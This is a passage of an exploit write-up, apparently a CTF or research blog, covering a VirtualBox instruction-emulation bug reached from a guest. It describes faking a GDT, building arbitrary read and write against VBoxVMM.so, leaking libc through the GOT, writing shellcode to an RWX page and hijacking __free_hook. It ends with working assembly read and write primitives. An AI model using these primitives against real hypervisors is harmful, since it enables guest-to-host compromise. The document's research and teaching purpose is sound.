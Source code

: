 The segment selector's index is bit 3 through 15, so we shift our 0x140 right by 3 to get the index, which is 40. We then memcpy the old GDT entries to our own array and copy the one at the current SS index to index 40, which should do the trick.

Now that we've been enlightened about all this, it is possible to finally reach the vulnerable instructions in IEM.


## The Black Gate Opens

At last, we have arrived at exploitation.  
The first action item is to upgrade our current primitives to arbitrary read and write. We have full control over the 64-bit index, achieving arbitrary read and write is just a matter of leaking the address of `Table`.  
In order to get the address of `Table`, we simply leaked a pointer to a string in the VBoxVMM.so, calculate its load base and finally add the `Table` offset to it. 

While doing some debugging, we noticed there was a page mapped as RWX. To get RIP control, we leak `fgets` from the GOT and calculate the base of libc and ld (through `dl_find_dso` in libc's GOT). We then simply write shellcode to the RWX page and overwrite `__free_hook` in libc to eventually jump there and get code execution.

```nasm
.intel_syntax noprefix

; rdi = idx, rsi = mmio, rdx = curr_gdtr, rcx = fake_gdtr
.global read_table_asm
read_table_asm:
    push rbx
    sgdt [rdx]
    lgdt [rcx]
    mov rbx, rdi
    mov ss, [rsi]
    .byte 0xf, 0x25
    mov rbx, 0x18
    mov ss, rbx
    lgdt [rdx]
    pop rbx
    ret

; rdi = idx, rsi = mmio, rdx = curr_gdtr, rcx = fake_gdtr, r8 = val
.global write_table_asm
write_table_asm:
    push rbx
    sgdt [rdx]
    lgdt [rcx]
    mov rbx, rdi
    mov rax, r8
    mov ss, [rsi]
    .byte 0xf, 0x27
    mov rbx, 0x18
    mov ss, rbx
    lgdt [rdx]
    pop rbx
    ret
```

